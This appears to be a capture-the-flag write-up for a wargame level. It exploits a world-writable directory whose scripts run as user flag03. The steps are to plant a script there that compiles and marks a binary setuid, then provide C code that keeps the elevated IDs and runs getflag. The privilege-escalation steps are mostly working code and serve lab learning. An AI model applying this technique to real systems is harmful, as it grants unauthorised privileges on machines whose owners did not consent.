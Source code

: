 # Level 03

As the site say there is a script in the directory "/home/flag03" called
writable.sh:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

In this case if we create a script and save it in the writable.d directory, at
some time it will be execute, by hte user flag03.

```bash
gcc -o /home/flag03/getflag /home/level03/getflag.c
chmod 4777 /home/flag03/getflag
```

We save this script in "/home/flag03/writable.d" directory.

Then we can create the code for our exploit in the "/home/level03" directory, that
will call the getflag function.

I use the same code of the level01.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/getflag");
}
```

Then after some time our code will be call and execute and we can run our getflag.
